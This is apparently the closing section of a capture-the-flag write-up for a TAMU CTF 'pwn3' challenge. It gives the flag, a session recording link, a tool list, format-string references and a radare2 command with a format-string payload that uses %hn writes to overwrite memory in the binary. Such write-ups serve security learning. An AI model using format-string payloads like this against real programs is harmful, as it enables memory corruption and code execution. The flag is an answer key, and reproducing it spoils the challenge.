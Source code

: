 Answer: gigem{F0RM@1NG_1S_H4RD}

### Complete video

<a href="https://asciinema.org/a/8dtrs5jltesk48y8ch5ouwrkn?autoplay=1" target="_blank"><img src="https://asciinema.org/a/8dtrs5jltesk48y8ch5ouwrkn.png" /></a>


### Notes for the author
r2 -X "stdin=\"\`python -c 'print(\"\x1e\xa0\x04\x08\x1c\xa0\x04\x08\" + \"%2044x%4$hn\" + \"%32167x%5$hn\")'\`\"" -d pwn3


### Tools used and some references:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [gdb](https://www.gnu.org/software/gdb/) - For binary debugging.
 * [pwntools](https://github.com/Gallopsled/pwntools) and [cyclic](http://docs.pwntools.com/en/stable/util/cyclic.html#pwnlib.util.cyclic.cyclic) - To generate unique substrings.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.

### Some references
https://0x00sec.org/t/picoctf-write-up-bypassing-aslr-via-format-string-bug/1920
https://ctf.tamu.edu/challenges

C is For C Programming - Cask J. Thomson (Fragment) - https://books.google.es/books?id=qeWyAAAAQBAJ&lpg=PA120&ots=Yk45UQR7EU&dq=Speci%EF%AC%81es%20that%20a%20following%20d%2C%20i%2C%20o%2C%20u%2C%20x%2C%20or%20X%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20short%20int%20or%20unsigned%20short%20int%20argument%20(the%20argument%20will%20have%20been%20promoted%20according%20to%20the%20integer%20promotions%2C%20but%20its%20value%20shall%20be%20converted%20to%20short%20int%20or%20unsigned%20short%20int%20before%20printing)%3B%20or%20that%20a%20following%20n%20conversion%20speci%EF%AC%81er%20applies%20to%20a%20pointer%20to%20a%20short%20int%20argument.&hl=es&pg=PA120#v=onepage&q&f=false

